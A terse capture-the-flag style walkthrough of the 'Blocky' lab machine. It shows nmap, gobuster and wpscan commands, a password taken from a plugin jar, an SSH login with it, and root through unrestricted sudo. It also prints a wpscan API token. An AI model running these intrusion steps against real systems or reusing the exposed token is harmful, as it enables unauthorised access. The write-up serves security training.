


# Summary


## about target

tip:  10.129.33.152

hostname:  Blocky

Difficulty:  Easy


## about attack

+ wpscan, try params detect mode if no plugins found by default.
+ jar file reverse and found interesting things, try all the login with the username and password you found.


**attack note**

```bash
Blocky / 10.129.33.152

PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp?
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d62b99b4d5e753ce2bfcb5d79d79fba2 (RSA)
|   256 5d7f389570c9beac67a01e86e7978403 (ECDSA)
|_  256 09d5c204951a90ef87562597df837067 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://blocky.htb
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)

----interesting 
root:8YsqfCTnvxAUeduzjNSXe22, from web file blockcore.jar


---- Enum

-- ftp 
ProFTPD 1.3.5a Server (Debian) 

-- http
php site, wordpress
# dirscan 
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/ -o gobuster.log  -x php

#wpscan 
## --plugins-detection passive/aggressive/mixed
## --wp-content-dir 
## --wp-plugins-dir 
wpscan --url http://blocky.htb --plugins-detection aggressive -- wp-content-dir wp-content --api-token eHmdOsNYBMMTmCxORyxOKVa5MZnegduDGRkGemtaFgo -e ap,at,u,cb

found user notch

---- exploit

ssh with notch:8YsqfCTnvxAUeduzjNSXe22

---- root

sudo -l 

sudo /bin/bash -p

```


# Enum

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp?
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d62b99b4d5e753ce2bfcb5d79d79fba2 (RSA)
|   256 5d7f389570c9beac67a01e86e7978403 (ECDSA)
|_  256 09d5c204951a90ef87562597df837067 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://blocky.htb
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
```


## http enum 

dir scan,  wordpress dir.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/ -o gobuster.log  -x php

```


wpscan ,found user notch

```bash
#wpscan 
## --plugins-detection passive/aggressive/mixed
## --wp-content-dir 
## --wp-plugins-dir 
wpscan --url http://blocky.htb --plugins-detection aggressive -- wp-content-dir wp-content --api-token eHmdOsNYBMMTmCxORyxOKVa5MZnegduDGRkGemtaFgo -e ap,at,u,cb
```


/plugins, found jar file.

reverse with jd-gui, found password.  or cat works too.




# Exploit

ssh with notch:8YsqfCTnvxAUeduzjNSXe22

got shell.

# Privesc


## loca enum

sudo -l, no limit.



## system

```bash
sudo /bin/bash -p
```

rooted.


## proof

```bash


```


